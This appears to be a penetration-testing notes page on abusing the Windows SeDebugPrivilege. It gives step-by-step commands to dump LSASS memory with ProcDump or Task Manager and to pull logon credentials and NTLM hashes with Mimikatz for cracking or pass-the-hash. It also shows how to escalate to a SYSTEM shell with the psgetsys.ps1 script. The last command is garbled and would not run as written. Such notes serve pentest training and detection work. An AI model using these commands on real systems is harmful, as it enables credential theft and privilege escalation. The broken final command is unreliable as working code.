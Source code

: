 # SeDebugPrivilege

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:green;">`SeDebugPrivilege`</mark> allows a user to <mark style="color:purple;">**debug system processes**</mark> without being a local administrator. By default, only administrators are granted this privilege as it can be used to capture sensitive information from <mark style="color:yellow;">**system memory**</mark>, or <mark style="color:yellow;">**access/modify kernel**</mark> and application structures.

*   Assigned via **Local or Domain Group Policy**:

    <mark style="color:blue;">**`Computer Settings > Windows Settings > Security Settings`**</mark>

## <mark style="color:yellow;">Dumping LSASS</mark>

We can use <mark style="color:red;">**ProcDump**</mark> from the <mark style="color:red;">**SysInternals**</mark> suite to leverage this privilege and <mark style="color:purple;">**dump process memory**</mark>. A good candidate is the **LSASS** process, which stores user credentials after a user logs on to a system.

Or we can dump it with <mark style="color:orange;">**`Task Manager`**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**->**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**`Details`**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**->**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**`lsass.exe`**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**->**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**`Right-Click`**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**->**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**`Create dump file`**</mark>

```powershell
C:\> procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

Then we can use <mark style="color:red;">**Mimikatz**</mark> to extract NTLM hashes from and crack it, or use it for Pass-The-Hash attack

```powershell
C:\> mimikatz.exe
```

```
mimikatz # sekurlsa::minidump lsass.dmp
```

```cmd-session
mimikatz # sekurlsa::logonpasswords
```

## <mark style="color:yellow;">RCE as SYSTEM</mark>

We can exploit <mark style="color:green;">`SeDebugPrivilege`</mark> to achieve RCE. This method allows us to escalate privileges to **SYSTEM** by spawning a child process and leveraging the elevated rights granted through <mark style="color:green;">`SeDebugPrivilege`</mark>. By modifying standard system behavior, we can make the child process inherit the parent process's token and impersonate its privileges.

1. First we need to transfer script [**\[LINK\]**](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1) to target. Then we need to find a process that uses **SYSTEM:**

<pre class="language-powershell"><code class="lang-powershell"><strong>PS:\> tasklist 
</strong></code></pre>

2. After we found PID we need to use that command:

```powershell
PS:\> .\psgetsys.ps1; [MyProcess]::CreateProcessFromParent(612, "c:\windows\System32\cmd.exe", "")
```

3. Or we could use **GetProcess** cmdlet to bypass looking for PID, for example we could use lsass.exe

```powershell
PS:\> .\psgetsys.ps1; [MyProcess]::CreateProcessFromParent(Get-Process "lsass".Id, "c:\windows\System32\cmd.exe", ""cd C;
```
